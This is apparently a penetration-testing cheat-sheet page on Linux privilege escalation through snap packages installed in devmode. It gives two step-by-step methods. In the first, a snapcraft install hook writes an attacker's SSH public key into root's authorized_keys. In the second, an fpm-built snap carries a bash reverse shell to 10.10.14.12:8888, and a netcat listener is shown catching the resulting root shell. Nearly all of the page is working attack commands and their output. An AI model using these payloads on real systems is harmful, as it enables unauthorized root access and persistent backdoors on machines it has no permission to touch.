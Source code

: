 ```yaml
---
description: Snap is a package manager that packages and deploys applications.
---
```


# Snap package (PE)

### What is it?

Snaps is similar to `apt` , they are self-contained applications that run in a sandboxed environment, while limiting acess to the host system. However when running in `dev mode` which makes it interesting for potential privilege escalation.

> When installing a snap, snap uses a hook which is called the "install hook". This hook when executed in dev mode will give snap elevated privileges.&#x20;

### Escalating privileges using Snapcraft

Start by installing snapd and snapcraft.

```bash
sudo apt update
sudo apt install snapd
sudo snap install --classic snapcraft
```

Make directory to work in, initialize and setup the install hook

```bash
# Make an empty directory to work with
mkdir new_snap
cd new_snap

# Initialize the directory as a snap project
snapcraft init

# Set up the install hook
mkdir snap/hooks
touch snap/hooks/install
chmod a+x snap/hooks/install
```

Then write a bash script we can run as root. We generate a SSH key pair on our local VM and copy the public key to the target.

```bash
cat > snap/hooks/install << "EOF"
#!/bin/bash

mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1ycHXJcjXrbJxx zn@zn" > /root/.ssh/authorized_keys
EOF

```

Edit the yaml file or if you have trouble making the snap package, try changing the base to core22 or core20 in the yaml file.

```bash
name: my-snap-name 
base: core24 
version: '0.1' 
summary: Single-line elevator pitch for your amazing snap 
description: |
  This is my-snap's description. You have a paragraph or two to tell the
  most important story about your snap. Keep it under 100 words though,
  we live in tweetspace and your description wants to look good in the snap
  store.

grade: devel 
confinement: devmode 

parts:
  my-part:
    
    plugin: nil
```

After this you can run `snapcraft` and create the package, it wil create a snap file.

{% embed url="https://snapcraft.io/docs/create-a-new-snap" %}

We then copy the created snap file to the target either via a http server or using ssh and scp and run the snap file which will give acces via ssh.

```bash
# upload snap file
scp my-snap-name_0.1_amd64.snap user@10.10.10.14:/tmp

# run snap file and get ssh acces.
sudo snap install xxxx_1.0_all.snap --devmode --dangerou
```

### GTFObins method

Another  easier and shorter way is to use the method from GTFO.

<figure><img src="../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

#### For this method you need to install

```bash
apt-get install ruby ruby-dev rubygems build-essential
gem install --no-document fpm
gem install fpm
```

And then execute the exploit

{% code overflow="wrap" %}
```bash
# Create directory
mkdir -p meta/hooks

# Insert payload 
printf '#!/bin/sh\n%s; false' "bash -i >& /dev/tcp/10.10.14.12/8888 0>&1" >meta/hooks/install

# Make file executable
chmod +x meta/hooks/install

# Create the snap file
fpm -n xxxx -s dir -t snap -a all meta

# Install snap package on target
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```
{% endcode %}

We got root shell:

```bash
$ nc -lvnp 8888                                        
listening on [any] 8888 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.233] 55368
bash-4.3# whoami
whoami
root
```
